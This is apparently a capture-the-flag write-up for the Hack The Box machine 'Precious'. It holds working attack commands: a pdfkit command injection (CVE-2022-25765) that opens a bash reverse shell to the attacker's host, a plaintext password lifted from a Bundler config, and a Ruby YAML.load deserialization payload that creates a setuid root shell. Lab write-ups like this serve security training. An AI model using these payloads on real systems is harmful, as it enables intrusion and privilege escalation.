 # Target
| Category          | Details                                                  |
|-------------------|----------------------------------------------------------|
| 📝 **Name**       | [Precious](https://app.hackthebox.com/machines/Precious) |  
| 🏷 **Type**       | HTB Machine                                              |
| 🖥 **OS**         | Linux                                                    |
| 🎯 **Difficulty** | Easy                                                     |
| 📁 **Tags**       | Ruby, pdfkit, CVE-2022-25765, YAML.load                  |

# Scan
```
┌──(magicrc㉿perun)-[~/attack/HTB Precious]
└─$ nmap -sS -sC -sV $TARGET
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-15 11:32 CEST
Nmap scan report for 10.129.236.42
Host is up (0.025s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Attack path
1. [Gain initial foothold using command injection in `pdfkit` (CVE-2022-25765)](#gain-initial-foothold-using-command-injection-in-pdfkit-cve-2022-25765)
2. [Escalate to the `henry` user with discovered credentials](#escalate-to-the-henry-user-with-discovered-credentials)
3. [Escalate to the `root` user using unsafe Ruby object deserialization in `YAML.load`](#escalate-to-the-root-user-using-unsafe-ruby-object-deserialization-in-yamlload)

### Gain initial foothold using command injection in `pdfkit` ([CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765))

#### Add `precious.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Precious]
└─$ echo "$TARGET precious.htb" | sudo tee -a /etc/hosts
10.129.236.187 precious.htb
```

#### Enumerate web application server with HTTP HEAD request
```
┌──(magicrc㉿perun)-[~/attack/HTB Precious]
└─$ curl -I http://precious.htb                                                                                                                    
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 483
Connection: keep-alive
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Sun, 15 Jun 2025 20:07:00 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
```

Knowing that target is using Ruby to convert HTML under given URL to PDF, with simple Google query `https://www.google.com/search?q=Ruby+PDF+vulnerability`, we have identified [CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765).

#### Listen for reverse shell
```
┌──(magicrc㉿perun)-[~/attack/HTB Precious]
└─$ nc -lnvp 4444       
listening on [any] 4444 ...
```

#### Spawn reverse shell connection by injecting command in URL used by `pdfkit`
```
LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
LPORT=4444 \
PAYLOAD=$(echo "http://?name=%20\`bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'\`" | jq -sRr @uri) \
curl http://precious.htb/ -d "url=$PAYLOAD"
```

#### Confirm initial foothold
```
connect to [10.10.14.157] from (UNKNOWN) [10.129.236.187] 42666
bash: cannot set terminal process group (678): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ id
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

### Escalate to the `henry` user with discovered credentials

#### Discover credentials in Bundler configuration
```
ruby@precious:/var/www/pdfapp$ cat /home/ruby/.bundle/config
cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

#### Use credentials to gain access over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB Precious]
└─$ ssh henry@precious.htb        
henry@precious.htb's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
```

### Escalate to the `root` user using unsafe Ruby object deserialization in `YAML.load`

#### List allowed sudo commands
```
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

#### Identify vulnerability in `/opt/update_dependencies.rb`
Script is using unsafe `YAML.load` deserialization.
```
henry@precious:~$ cat -n /opt/update_dependencies.rb
<SNIP>
     9  def list_from_file
    10      YAML.load(File.read("dependencies.yml"))
    11  end
<SNIP>
    17  gems_file = list_from_file
<SNIP>
```

#### Exploit vulnerability to spawn root shell
```
henry@precious:~$ { cat <<'EOF'> dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cp /bin/bash /tmp/root_shell; chmod +s /tmp/root_shell
         method_id: :resolve
EOF
} && sudo /usr/bin/ruby /opt/update_dependencies.rb 2> /dev/null; /tmp/root_shell -p
root_shell-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
```
